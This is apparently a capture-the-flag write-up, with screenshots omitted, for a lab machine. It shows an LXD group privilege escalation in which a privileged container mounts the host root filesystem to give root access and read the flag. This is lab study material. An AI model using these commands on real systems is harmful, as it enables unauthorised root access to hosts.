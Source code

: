 ![](/img/tabby/2020-12-09_09-35.png)

| lxc init ryku-image ignite -c security.privileged=true
 lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
 lxc start ignite
 lxc exec ignite /bin/sh
 id |
| --- |

![](/img/tabby/2020-12-09_09-42.png) ![](/img/tabby/2020-12-09_09-43.png)

We are root! In the container… I mounted my root file system though, so let&#39;s check that...

| cd /mnt/root
 ls
 cd /root |
| --- |

cat root.txt to obtain the flag

![](/img/tabby/2020-12-09_09-43_1.png)

**Vulnerability Exploited:**

lxd-privilege-escalation

**Vulnerability Explanation:**

lxd which is a process run by root, this process is used to carry out certain actions for anyone with write access to the lxd socket. It doesn&#39;t usually check to see if the current user vs root user privs are matched, and will go ahead and execute anyway.

###
